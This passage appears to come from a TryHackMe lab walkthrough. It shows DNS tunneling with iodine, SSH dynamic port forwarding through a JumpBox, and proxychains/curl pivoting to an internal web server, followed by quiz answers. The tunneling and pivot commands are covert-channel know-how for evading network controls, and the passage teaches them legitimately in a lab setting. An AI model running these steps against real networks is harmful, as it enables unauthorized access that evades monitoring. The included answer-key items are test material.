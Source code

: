 ```
Connection setup complete, transmitting data.

	    
```

Note that we executed the client-side tool (iodine) and provided the -f and -P arguments explained before. Once the connection is established, we open a new terminal and log in to 10.1.1.1 via SSH. 

Note that all communication over the network 10.1.1.1/24 will be over the DNS. We will be using the -D argument for the dynamic port forwarding feature to use the SSH session as a proxy. Note that we used the -f argument to enforce ssh to go to the background. The -4 argument forces the ssh client to bind on IPv4 only. 

```
SSH over DNS

           
			
root@attacker$ ssh thm@10.1.1.2 -4 -f -N -D 1080
	    
```

Now that we have connected to JumpBox over the dns0 network, open a new terminal and use ProxyChains or Firefox with 127.0.0.1 and port 1080 as proxy settings. 

```
Use SSH Connection as a Proxy

           
			
root@attacker$ proxychains curl http://192.168.0.100/demo.php
root@attacker$ #OR
root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php

	    
```

We can confirm that all traffic goes through the DNS protocol by checking the Tcpdump on the Attacker machine through the eth0 interface.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/ffbd2ecb2563c649fde174b40c450097.png)

Apply the DNS tunneling technique in the provided network environment and access http://192.168.0.100/test.php to answer the question below.


When the iodine connection establishes to Attacker, run the ifconfig command. How many interfaces are? (including the loopback interface)
Execute "ifconfig" from JumpBox once the iodine connection is established.
*4*

What is the network interface name created by iodined? 
*dns0*

 Use the DNS tunneling to prove your access to the webserver, http://192.168.0.100/test.php . What is the flag?
Ensure to pivot through JumpBox to get the flag
